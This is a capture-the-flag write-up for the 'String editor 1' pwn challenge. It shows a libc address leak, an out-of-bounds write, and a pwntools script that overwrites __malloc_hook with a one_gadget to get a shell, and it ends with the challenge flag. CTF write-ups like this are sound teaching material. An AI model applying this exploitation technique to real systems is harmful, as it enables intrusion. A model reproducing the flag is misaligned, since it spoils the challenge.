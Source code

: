 # String editor 1

## Task

* [string_editor_1](https://imaginaryctf.org/r/B651-string_editor_1) 
* [libc.so.6](https://imaginaryctf.org/r/51CE-libc.so.6)
* nc chal.imaginaryctf.org 42004

## Solution

We get a message which prints the address to system,
so we can calculate the libc base address by using the
provided libc file.

Then we can run onegadget to find a gadget at offset
0xe6c81 in libc, so we now have a target to jump to.

How do we exploit that? well, we get debug output where
our malloc'd region is as well as no bounds check. Which
means we have a write-anything-anywhere by using the correct
index (target - debug is the correct offset, because we add
the debug and then write the byte at that offset)

So we just put that in a loop and overwrite the `__malloc_hook`
by the onegadget address.


```python
libc = ELF("./libc.so.6")

io = start()
io.recvuntil(b"sponsors: ")
system = int(io.recvline().strip(),0)
print(hex(system))
libc.address = system-libc.sym.system

io.recvline()
io.recvline()
io.recvline()

ONE_GADGET_OFFSET = 0xe6c81
ONE_GADGET_ADDR = p64(ONE_GADGET_OFFSET + libc.address)

io.sendline(b"0")
io.sendline(b"a")
io.recvuntil(b"DEBUG: ")
addr = int(io.recvline(),0)

base_offset = libc.sym.__malloc_hook - addr

for i in range(8):
    io.sendline(str(base_offset + i).encode())
    io.sendline(ONE_GADGET_ADDR[i:i+1])


io.interactive()
```

now whenever we allocate something we execute the shell...
So let's just enter fifteen and tada, we get a shell.

`ictf{alw4ys_ch3ck_y0ur_1nd1c3s!_4e42c9f2}`
